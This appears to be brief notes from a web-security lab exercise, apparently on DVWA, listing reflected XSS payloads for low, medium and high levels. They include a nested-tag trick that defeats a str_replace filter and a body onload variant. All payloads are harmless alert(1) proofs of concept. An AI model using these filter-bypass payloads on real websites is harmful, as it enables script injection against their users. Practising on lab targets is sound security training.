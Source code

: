 ### Security level: LOW
* <script> alert(1) </script>

### Security level: MEDIUM:

* <s<script>cript>alert(1)</script>
* circumvented str_replace( '<script>', '')

### Security level: HIGH:

* <<meta>body onload=alert(1)>
* similar to stored XSS page
